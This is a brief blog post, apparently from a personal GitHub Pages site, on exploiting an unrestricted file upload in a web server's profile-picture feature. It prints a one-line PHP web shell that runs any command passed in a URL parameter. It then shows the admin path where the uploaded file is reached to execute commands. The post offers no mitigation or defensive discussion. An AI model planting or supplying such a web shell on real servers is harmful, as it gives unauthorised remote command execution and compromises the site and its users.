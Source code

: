```yaml
---
layout: post
title: unrestricted file upload
---
```

possible way to take advantage of an unrestricted file upload within a profile picture section in a web server

```
echo "<?php system(\$_GET['cmd']); ?>" > exploit.php
```

copy image address results in the following url being copied to our clipboard: http://www.nop.cat/admin/ftp/objects/XXXXXXXXXXXX.php



![url to execute](https://github.com/nopcat/nopcat.github.io/blob/master/images/url.png "url to execute command in webserver")
